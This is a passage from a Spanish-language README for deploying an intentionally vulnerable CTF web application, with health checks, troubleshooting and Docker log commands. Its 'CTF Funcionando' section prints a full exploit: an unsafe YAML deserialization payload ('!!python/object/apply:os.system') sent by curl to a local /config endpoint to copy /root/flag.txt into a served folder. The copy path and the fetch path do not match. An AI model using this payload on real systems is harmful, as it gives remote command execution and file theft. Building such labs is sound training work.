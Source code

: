 ### **Archivos Estáticos**
- `/` → Aplicación React SPA
- Fallback a `index.html` para routing

## 📊 **Verificación del Despliegue**

### **Health Checks**
```bash
# Frontend funcionando
curl -s http://localhost:3000 | head -5

# Backend API funcionando
curl -s http://localhost:3000/api/system | jq .

# Endpoint vulnerable activo
curl -s -X POST http://localhost:3000/config \
  -H "Content-Type: application/x-yaml" \
  -d "test: value"
```

### **CTF Funcionando**
```bash
# Exploit completo
curl -s -X POST http://localhost:3000/config \
  -H "Content-Type: application/x-yaml" \
  -d $'!!python/object/apply:os.system\n- python3 -c "import os; os.system(\'cp /root/flag.txt /app/static/flag.txt\')"' \
  && curl -s http://localhost:3000/uploads/flag.txt
```

## 🔄 **Solución de Problemas**

### **Errores Comunes**
1. **Puerto 3000 ocupado**: Cambiar puerto en docker-compose.yml
2. **Containers en conflicto**: `sudo docker-compose down -v`
3. **Build cache**: `sudo docker-compose build --no-cache`

### **Logs de Debugging**
```bash
# Logs específicos
sudo docker-compose logs backend
sudo docker-compose logs frontend

# Logs en tiempo real
sudo docker-compose logs -f
```

## 📦 **Imágenes Docker**
